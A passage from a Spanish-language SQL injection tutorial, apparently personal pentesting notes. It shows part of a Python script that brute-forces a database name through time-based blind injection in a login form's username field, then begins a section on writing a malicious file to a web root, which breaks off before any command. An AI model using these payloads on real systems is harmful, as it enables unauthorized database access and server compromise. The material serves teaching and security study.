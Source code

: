 ```python

        p2 = log.progress("Usuario")

        for position in range(1, 22):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or if(substr(database(),%d,1)='%s', sleep(5), 1)-- -" % (position, character),     #Aqui lo que hacemos es que mediantes sleep's y con la comparacion de si es 1 es True sacar el nombre de la base de datos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

						time_start = time.time()

                        r = requests.post(login_url, data=post_data)

						time_end = time.time()

                        if time_end - time_start > 5:       #Parametro de la comparacion para saber si es True o False con los tiempos de sleep's (Si tarda 5 segundos en responder es True, de lo contrario es False)

                                database += character
                                p2.status(database)
                                break

if __name__ == '__main__':

        makeRequest()
```

Pero para automatizar todo esto mas podremos utilizar la herramienta llamada `sqlmap` y con sus parametros necesarios dependiendo del tipo de ataque que queramos hacer...

### SQL Injection depositar archivos

Para aprovechar una vulnerabilidad de `mysql` en vez de para ver bases de datos, para poder cargar un archivo malicioso, probaremos si se puede haciendo lo siguiente...

> EJEMPLO

Pongamos que tenemos la siguiente `URL`...

```
URL = http://example.com/example.php
```

Y dentro de ese `.php` es vulnerable en algun `input` a `SQL Injection`, pondremos el siguiente comando para comprobar que se pueden subir archivos...

Supongamos que la ruta donde se esta ejecutando todo esto esta en la que viene por defecto `/var/www/html/` y si es asi, haremos lo suguiente...

